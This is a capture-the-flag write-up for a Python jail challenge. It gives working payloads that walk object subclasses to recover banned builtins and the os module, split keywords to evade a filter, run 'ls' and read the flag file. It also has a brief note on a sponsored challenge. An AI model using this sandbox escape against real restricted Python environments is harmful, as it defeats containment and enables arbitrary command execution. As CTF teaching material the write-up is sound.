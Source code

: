 **Challenge**

[jailpublic.zip](./jailpublic.zip)

**WriteUp**

We are in a python sandbox that does not allow spaces and some banned commands, if our command is safe it is then executed.

We don’t have access to the builtins keyword, so we have to find a way to do it without, we can use a global function for this: 
```py
().__class__.__base__.__subclasses__()
```

Now we have to find a class that contains our forbidden builtin functions.
In index 99 we have the class `warnings.catch_warnings` which in index 5 of its globals gives us access to it and index 8 a way to import modules:
```py
list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[5]["name_of_banned_function"]
list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[8].modules["name_of_banned_module"]
```

So we can start by running a `ls` to find the file containing the flag:
```py
list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[8].modules["o"+"s"].system("ls")
```

now that we have recovered the name of the file we must open it and display its contents:
```py
list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[5]["pri"+"nt"](list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[5]["op"+"en"]("/cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt","r").read())
```

The content of the file contains our flag!

Done! We have our flag "`kqctf{0h_h0w_1_w4n7_70_br34k_fr33_e73nfk1788234896a174nc}`"

## Dupper Analytics

**Challenge**

**WriteUp**

It’s a sponsored message, we watch the video and we get the flag.
